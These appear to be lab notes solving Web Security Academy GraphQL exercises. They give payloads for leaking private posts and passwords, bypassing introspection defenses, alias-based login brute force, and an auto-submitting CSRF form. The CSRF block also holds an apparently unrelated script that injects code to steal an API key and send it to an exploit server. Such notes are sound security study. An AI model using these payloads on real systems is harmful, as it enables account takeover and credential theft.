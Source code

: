 # GraphQL API Vulnerabilities

[GraphQL Visualizer](https://graphql-kit.com/graphql-voyager/)
## Lab: Accessing private GraphQL posts
```json
{"query":"\nquery getBlogSummaries {\n    getBlogPost(id:3) {\n        image\n        title\n        summary\n        id\n  isPrivate \n postPassword \n   }\n}","operationName":"getBlogSummaries"}
```

## Lab: Accidental exposure of private GraphQL fields

1. introspection query
2. find administrator
```json
{"query":"\nquery getUser {\n    getUser(id:1) {\n        id\n   username\n      password\n      }\n}","operationName":"getUser"}
```

## Lab: Finding a hidden GraphQL endpoint
1. Try common endpoint, find `/api`.
2. Bypass introspection defense by add a breaklin(%02a) after `__schema`.
3. Save the GraphQL queries to site map, and find the `getUser` and `deleteUser` Query.
4. Delete carlos(id: 3).

## Lab: Bypassing GraphQL brute force protections

Edit in `GraphQL` tab.
```json
 mutation {
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }
          ...
 }
```

## Lab: Performing CSRF exploits over GraphQL

```html
<body>
    <meta name="referrer" content="never">
    <form method="POST"
        action="https://0aa600fa042f042b832e460c00050027.web-security-academy.net/graphql/v1">
        <input type="hidden" name="query" value="mutation changeEmail($input: ChangeEmailInput!) { changeEmail(input: $input) { email } }">
        <input type="hidden" name="operationName" value="changeEmail" />
        <input type="hideen" name="variables" value='{"input":{"email":"hacke11213r@hacker.com"}}' />
    </form>
    <script>
        document.forms[0].submit();
    </script>
    <script>
        document.location = "https://stock.0a22009104211e5a80c844d600a3000c.web-security-academy.net/?productId=3%3Cscript%3Efetch(%27https://0a22009104211e5a80c844d600a3000c.web-security-academy.net/accountDetails%27,%20{%20credentials:%20%27include%27%20}).then(r%20=%3E%20r.json()).then(j%20=%3E%20{%20document.location%20=%20%22https://exploit-0a2b0010040d1e598057439701bd0016.exploit-server.net/log?key=%22%20+%20%2Bj.apikey;%20})%3C/script%3E&storeId=1"
    </script>
</body>
```